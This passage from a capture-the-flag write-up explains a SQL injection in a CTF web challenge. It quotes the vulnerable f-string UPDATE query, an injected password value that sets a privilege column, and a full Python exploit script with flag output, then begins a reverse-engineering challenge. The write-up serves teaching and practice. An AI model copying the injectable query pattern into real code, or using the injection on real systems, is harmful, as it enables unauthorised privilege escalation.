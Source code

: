 The interesting/vulnerable line of code is
```python
cursor.execute(f'UPDATE users SET username="{username}", password="{password}" WHERE username="{session["username"]}"')
```
{: .nolineno }

Our username and password is inserted directly into the SQL-statement without any form of sanitization. Since we need the SQL-query to affect our created user we won't manipulate the username field, but we can update our password such that we set our *sus* to 1 to bypass the flag-check.

By updating our password to be `<anything>",sus="1` we get the following valid SQL-query; `UPDATE users SET username="<username>", password="<anything>",sus="1" WHERE username="{session["username"]}"`. This will update our user's *sus* to evaluate to *True*, making us able to read the flag.

This is the full exploit written in python
```python
import requests
import json

url = "http://litctf.org:31783"
username = "user"
password = "user"

# Register new user
requests.post(url + "/signup", data={"username": username, "password": password})

# Login as user to get token
r = requests.post(url + "/login", data={"username": username, "password": password})
token = r.json().get("token")

# Update 'sus' of user to 1
requests.post(url + "/account/update", headers={"Authorization": "Bearer " + token}, data={"username": username, "password": f'username={username}&password={password}",sus="1'})

# Get flag
r = requests.get(url + "/flag", headers={"Authorization": "Bearer " + token})
print(r.json())
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/lit-ctf/web/amogus_api/amogsus-api$ python3 exploit.py
{'message': 'Congrats! The flag is: flagLITCTF{1njeC7_Th3_sUs_Am0ng_U5}'}
```


# Rev
## rick
![Challenge](rick_chall.png)

We have a binary, which asks us for the flag when being run
```console
loevland@hp-envy:~/ctf/lit-ctf/rev/rick$ ./rick
wat is flag

```
